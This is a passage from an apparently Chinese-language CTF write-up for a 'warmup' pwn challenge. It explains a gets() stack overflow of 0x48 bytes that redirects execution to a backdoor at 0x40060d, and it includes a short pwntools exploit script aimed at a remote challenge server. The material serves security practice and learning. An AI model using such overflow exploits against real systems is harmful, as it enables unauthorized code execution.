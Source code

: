 ![](截图\3.7.png)

### 4.warmup

![](截图\11.1.jpg)

![](截图\11.2.jpg)

题目没给附件，看大佬exp说是fuzz，用他的exp搞不出flag，就用别人的题看了以下，gets函数溢出到后门0x40060d即可，溢出0x40+8

**exp**

```python
from pwn import *
p = remote('111.198.29.45', 39368)
payload = "a" * 0x40 + "a" * 8 + p64(0x40060d)
p.recvuntil('>')
p.sendline(payload)
p.interactive()
```

